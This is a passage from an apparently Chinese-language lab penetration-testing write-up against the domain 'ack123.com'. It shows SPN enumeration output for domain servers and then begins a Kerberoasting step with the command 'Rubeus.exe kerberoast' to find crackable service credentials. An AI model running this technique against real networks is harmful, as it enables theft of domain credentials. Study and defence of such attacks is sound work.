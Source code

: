 ```bash
        ldap/16SERVER-DC1
        ldap/16server-dc1.ack123.com
        ldap/16server-dc1.ack123.com/ack123.com
CN=krbtgt,CN=Users,DC=ack123,DC=com
        kadmin/changepw
CN=12SERVER-DATA2,CN=Computers,DC=ack123,DC=com
        WSMAN/12server-data2
        WSMAN/12server-data2.ack123.com
        RestrictedKrbHost/12SERVER-DATA2
        HOST/12SERVER-DATA2
        RestrictedKrbHost/12server-data2.ack123.com
        HOST/12server-data2.ack123.com
CN=12SERVER-WEB2,CN=Computers,DC=ack123,DC=com
        WSMAN/12server-web2
        WSMAN/12server-web2.ack123.com
        RestrictedKrbHost/12SERVER-WEB2
        HOST/12SERVER-WEB2
        RestrictedKrbHost/12server-web2.ack123.com
        HOST/12server-web2.ack123.com

发现存在 SPN!
```

## 攻击Kerberos协议RC4加密

### 步骤1：检测脆弱可解密的凭据

```bash
Rubeus.exe kerberoast
```

<img src=".\图片\Snipaste_2023-05-19_21-54-48.png" alt="Snipaste_2023-05-19_21-54-48" style="zoom: 120%;" />
